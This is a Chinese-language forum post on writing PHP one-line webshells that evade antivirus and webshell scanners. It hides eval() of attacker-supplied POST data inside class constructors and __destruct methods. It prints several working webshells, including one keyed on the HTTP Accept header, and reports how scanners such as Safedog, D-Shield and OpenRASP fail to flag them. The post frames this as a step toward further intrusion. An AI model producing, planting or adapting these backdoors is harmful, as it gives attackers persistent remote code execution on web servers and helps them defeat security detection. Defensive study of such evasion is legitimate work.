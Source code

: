 ## 0x00  shell编写思路
目前我们一句话shell的编写归根揭底就为命令执行, 只要最后代码命令执行我们外部参数就可称为webshell了，而菜刀的出现也是方便我们使用，我们这时候就用简短的一句话实现我们下一步入侵的功能
,而一般php的命令执行:

>php命令执行函数,分为两种(执行php代码的eval、assert),执行系统命令函数的(system、exec、popen)

言而总之让我们的代码最后可以`eval($_POST['pass'])`就可以了，然而你正常的在代码里写是绝对会被防护软件杀的,我的思路是在类里面写命令执行函数,看安全狗敏不敏感,事实上此思路来自某次审计cms，他们并没有你想的那么智能的拦截

某次看到一个这样的文件
``` php
class test{
    public function __contruct($xx = ""){
		$this->xx = $xx;
}

	public function __destruct(){
		eval(serialize($this->xx))
}
}
```
这样的文件一般会拦截吗,我分别使用了安全狗,webkill，d盾 尝试结果如下:
我写了这样一个文件
``` php
class test{
    public ex($str = ""){
    eval($str);
    }
}
```
![](attachments/contributeupload/180513160566cf0d7fb5a59fc7.png)

## 0x02 实验尝试
只有d盾对其拦截了，当我们把这个类引入构造函数__contruct 和解构函数时__destruct,构造一句话为
``` php
<?php
class OowoO{
    public $mdzz;
    function __construct($str = ""){
        $this->mdzz = $str;
    }

    function __destruct(){
        eval($this->mdzz);
    }
}
if(isset($_POST["pass"])){
    $m= new OowoO($_POST["pass"]);
}
?>
```
菜刀连接尝试
![](attachments/contributeupload/1805131617b4c05c06b90f6919.png)
![](attachments/contributeupload/1805131618806b11ece90ea0f5.png)
当然了这样的基本上d盾和安全狗还有河马的桌面版是不会杀的
我们得出的结论,安全查杀并没有对php类的构造函数和魔术方法进行查杀和检测，我们这样一想可扩展的地方多了(从混淆传入的字符使用回调函数进行代码执行,正则等，加密？？？)

##0x03 扩展引用
这里引用tools的大佬文章的扩展绕过沙盒和人工智能的在线webshell进行查杀的思路,菜刀配置为:
![](![](attachments/contributeupload/1805131656d892c774eed9d49a.png))
shell如下:
``` php
<?php
#error_reporting(5);
#ini_set('session_serialize_handler', 'php');
#session_start();
class OowoO{
    public $mdzz;
    public $func;
    function __construct($str = ""){
        $this->mdzz = $str;
    }

    function __destruct(){
        if(strlen(substr(__FILE__,strripos(__FILE__,"/")+1)-4 <5))
        {
            eval($this->mdzz);
        }
    }
}
if(isset($_POST["$_SERVER[HTTP_ACCEPT]"])){
    $m= new OowoO($_POST["$_SERVER[HTTP_ACCEPT]"], $_POST['func']);
}
?>
```
尝试对大佬说的几个在线进行测试
>BugScaner killwebshell 链接地址 [http://tools.bugscaner.com/killwebshell/](http://tools.bugscaner.com/killwebshell/)
![](attachments/contributeupload/1805131632f01b12f7926714c9.png)

>河马专业版查杀Webshell 链接地址[http://n.shellpub.com/](http://n.shellpub.com/)
![](attachments/contributeupload/1805131641d6d33e6d2512ee2d.png)

>OpenRASP WEBDIR+检测引擎 链接地址 [https://scanner.baidu.com](https://scanner.baidu.com)
![](attachments/contributeupload/18051316452df41af210262443.png)

>PHP webshel​​l检测的深度学习模型 链接地址[http://webshell.cdxy.me/](http://webshell.cdxy.me/)
![](attachments/contributeupload/18051316502d730c901861622c.png)
*我感觉是eval在代码里出现被检测了,其实深度学习的模型应该是像后门的框架库一样去学习检测吧,后来在解构函数代码利用回调函数拼接字符继续bypass 
![](attachments/contributeupload/180513165488eb7a432a6f99b1.png)

## 0x04 总结
传统通过匹配文中特殊函数的检测可以外部传入特殊函数,或者利用字符特性进行编码或部分传入,其实很大一部分都是特征, 针对一句话来讲我们绕过的优势还是很大的,其实难点在于如何连接菜刀时不被拦截,我感觉这才是我们绕过防护最难之处

`引用朋友一句话,你还没有tools账号,你退群吧！！`
希望审核可以给我个机会，能够加入tools大家庭!，以前一直用朋友账号看tools 心塞！



